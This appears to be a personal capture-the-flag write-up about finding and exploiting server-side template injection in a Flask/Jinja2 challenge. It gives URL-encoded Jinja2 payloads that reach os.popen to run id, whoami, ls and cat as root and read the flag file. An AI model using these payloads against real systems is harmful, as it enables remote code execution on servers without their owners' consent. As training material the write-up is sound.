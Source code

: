On the screen we see that the site is made with 

# Flask Jinja2

![[Screenshot_2023-09-17_10_09_37.png]]

This helped me a lot

https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/

On the browser I used this command to retrieve if its vulnerable to a SSTI. (SERVER SIDE TEMPLATE INJECTION)

http://206.189.23.108:30029/{{3*2}}

The browser interpreted it and retrieve me '6'

![[Screenshot_2023-09-17_10_13_21.png]]
I injected this one too

```
http://206.189.23.108:30029/%7B%7B%20request.application.__globals__.__builtins__.__import__('os').popen('id').read()%20%7D%7D
```
This was the response
```
The page 'uid=0(root) gid=0(root) groups=0(root) ' could not be found
```


Now I injected another one 

```
http://206.189.23.108:30029/%7B%7B%20request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()%20%7D%7D
```
The response was 
```
root
```

the next comand that I put was 

```
http://206.189.23.108:30029/%7B%7B%20request.application.__globals__.__builtins__.__import__('os').popen('ls').read()%20%7D%7D
```
Then i was able to see that there was a flag.txt , the next step was just put 

```
http://206.189.23.108:30029/%7B%7B%20request.application.__globals__.__builtins__.__import__('os').popen('cat fag.txt').read()%20%7D%7D
```

Finally this was the response

![[Screenshot_2023-09-17_10_37_15.png]]

Finally I did it 